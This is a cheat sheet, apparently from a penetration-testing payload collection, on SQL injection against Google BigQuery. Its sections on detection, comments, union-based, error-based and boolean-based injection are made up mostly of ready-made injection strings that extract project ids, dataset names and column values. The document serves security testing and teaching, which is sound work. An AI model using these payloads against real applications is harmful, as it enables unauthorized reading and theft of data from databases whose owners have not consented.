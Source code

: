 # Google BigQuery SQL Injection

> Google BigQuery SQL Injection  is a type of security vulnerability where an attacker can execute arbitrary SQL queries on a Google BigQuery database by manipulating user inputs that are incorporated into SQL queries without proper sanitization. This can lead to unauthorized data access, data manipulation, or other malicious activities.

## Summary

* [Detection](#detection)
* [BigQuery Comment](#bigquery-comment)
* [BigQuery Union Based](#bigquery-union-based)
* [BigQuery Error Based](#bigquery-error-based)
* [BigQuery Boolean Based](#bigquery-boolean-based)
* [BigQuery Time Based](#bigquery-time-based)
* [References](#references)


## Detection

* Use a classic single quote to trigger an error: `'`
* Identify BigQuery using backtick notation: ```SELECT .... FROM `` AS ...```

| SQL Query                                             | Description |
| ----------------------------------------------------- | -------------------- |
| `SELECT @@project_id`                                 | Gathering project id |
| `SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA` | Gathering all dataset names |
| `select * from project_id.dataset_name.table_name`    | Gathering data from specific project id & dataset |


## BigQuery Comment

| Type                       | Description                       |
|----------------------------|-----------------------------------|
| `#`                        | Hash comment                      |
| `/* PostgreSQL Comment */` | C-style comment                   |


## BigQuery Union Based

```ps1
UNION ALL SELECT (SELECT @@project_id),1,1,1,1,1,1)) AS T1 GROUP BY column_name#
true) GROUP BY column_name LIMIT 1 UNION ALL SELECT (SELECT 'asd'),1,1,1,1,1,1)) AS T1 GROUP BY column_name#
true) GROUP BY column_name LIMIT 1 UNION ALL SELECT (SELECT @@project_id),1,1,1,1,1,1)) AS T1 GROUP BY column_name#
' GROUP BY column_name UNION ALL SELECT column_name,1,1 FROM  (select column_name AS new_name from `project_id.dataset_name.table_name`) AS A GROUP BY column_name#
```

## BigQuery Error Based

| SQL Query                                                | Description          |
| -------------------------------------------------------- | -------------------- |
| `' OR if(1/(length((select('a')))-1)=1,true,false) OR '` | Division by zero     |
| `select CAST(@@project_id AS INT64)`                     | Casting              |


## BigQuery Boolean Based

```ps1
' WHERE SUBSTRING((select column_name from `project_id.dataset_name.table_name` limit 1),1,1)='A'#
```

## BigQuery Time Based

* Time based functions does not exist in the BigQuery syntax.


## References

* [BigQuery SQL Injection Cheat Sheet - Ozgur Alp - February 14, 2022](https://ozguralp.medium.com/bigquery-sql-injection-cheat-sheet-65ad70e11eac)
* [BigQuery Documentation - Query Syntax - October 30, 2024](https://cloud.google.com/bigquery/docs/reference/standard-sql/query-syntax)
* [BigQuery Documentation - Functions and Operators - October 30, 2024](https://cloud.google.com/bigquery/docs/reference/standard-sql/functions-and-operators)
* [Akamai Web Application Firewall Bypass Journey: Exploiting “Google BigQuery” SQL Injection Vulnerability - Duc Nguyen - March 31, 2020](https://hackemall.live/index.php/2020/03/31/akamai-web-application-firewall-bypass-journey-exploiting-google-bigquery-sql-injection-vulnerability/)